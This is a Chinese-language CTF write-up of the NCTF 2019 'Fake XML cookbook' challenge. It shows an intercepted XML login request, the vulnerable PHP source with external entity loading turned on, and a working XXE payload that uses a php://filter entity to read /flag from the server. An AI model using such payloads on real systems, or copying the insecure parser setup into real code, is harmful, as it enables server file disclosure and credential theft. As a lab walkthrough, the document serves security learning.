




# NCTF 2019

## Fake XML cookbook

> *2021/08/02*

### 题目

进去之后是一个登录页面



登陆一下截个包

```http
POST /doLogin.php HTTP/1.1
Host: bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn
Content-Length: 59
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn
Referer: http://bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

<user><username>bme</username><password>1</password></user>
```

上传的是xml文件，先试试简单的**XXE**



有回显，再试试`/var/www/html/index.php`



报错了，试试这个页面，发现读不出来，可能是协议问题，换成伪协议



源代码如下

```php
<?php

/**
 * autor: c0ny1
 * date: 2018-2-7
 */

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try {
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);

    $username = $creds->username;
    $password = $creds->password;

    if ($username == $USERNAME && $password == $PASSWORD) {
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>", 1, $username);
    } else {
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>", 0, $username);
    }
} catch (Exception $e) {
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>", 3, $e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
```

拿账号密码登录，没啥用，没办法只能尝试读取一下`/flag`，居然读出来了

### payload

```http
POST /doLogin.php HTTP/1.1
Host: bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn
Content-Length: 154
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn
Referer: http://bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

<!DOCTYPE note [
    <!ENTITY b SYSTEM "php://filter/read/resource=/flag">
]>
<user>
    <username>&b;</username>
    <password>1</password>
</user>
```

